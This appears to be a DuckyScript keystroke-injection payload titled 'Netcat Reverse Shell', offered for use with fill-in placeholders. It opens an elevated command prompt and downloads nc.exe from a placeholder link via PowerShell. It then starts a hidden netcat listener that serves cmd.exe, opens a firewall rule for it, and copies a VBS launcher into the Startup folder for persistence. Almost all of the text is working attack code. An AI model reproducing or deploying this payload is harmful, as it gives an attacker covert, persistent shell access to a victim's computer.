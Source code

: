 REM ### **Change the following details**:
REM * **[NETCAT_DOWNLOAD_LINK]**: Your Netcat download link.
REM * **[PORT]**: The port on the target machine you want netcat to listen on.
REM * **Directory**: Use something other than %TEMP% if you want to.
REM 
REM ## **CODE**:
```
REM Title: Netcat Reverse Shell
REM Author: Kanishk Singh
REM Version: 1
REM Description:
DELAY 200
REM --> Minimize all windows
WINDOWS d
GUI r
DELAY 500
STRING powershell Start-Process cmd -Verb RunAs
ENTER
DELAY 1500
ALT y
DELAY 500
STRING cd %TEMP%
ENTER

REM --> Kills already running Netcat instance (if any)
STRING TASKKILL /im nc.exe /f
ENTER
REM --> Delete nc.exe file if it already exists
STRING erase /Q nc.exe
ENTER
REM --> Delete Start batch file if it already exists
STRING erase /Q Start.bat
ENTER
REM --> Delete Invisible.vbs in temp folder, if it already exists
STRING erase /Q invisible.vbs
ENTER
REM --> Delete invisible.vbs file in Startup if it already exists
STRING erase /Q "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\invisible.vbs"
ENTER
DELAY 500

REM --> Downloads NetCat
STRING powershell (new-object System.Net.WebClient).DownloadFile('http://[NETCAT_DOWNLOAD_LINK]/nc.exe','nc.exe')
ENTER
DELAY 500

REM --> Creates a batch file to start listening 
STRING copy con Start.bat
ENTER
STRING nc -lp [PORT] -vv -e cmd.exe -L
ENTER
CONTROL z
ENTER

REM --> Starts batch file invisibly 
STRING copy con invisible.vbs
ENTER
STRING Set WshShell = CreateObject("WScript.Shell" ) 
ENTER
STRING WshShell.Run chr(34) & "%TEMP%\Start.bat" & Chr(34), 0 
ENTER
STRING Set WshShell = Nothing 
ENTER
CONTROL z
ENTER
REM --> Add netcat to allowed programs list, enabling it to communicate through the firewall seamlessly
STRING netsh advfirewall firewall add rule name="Netcat" dir=in action=allow program="%TEMP%\nc.exe" enable=yes
ENTER
STRING start invisible.vbs
ENTER
DELAY 100

REM --> Copies invisible.vbs to startup folder for persistence
STRING copy "invisible.vbs" "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
ENTER
REM --> Kills CMD while nc.exe continues running in background, remove Ducky after CMD closes
STRING exit 
ENTER
```

## **To-Do**:
* Test whether the script executes at startup.
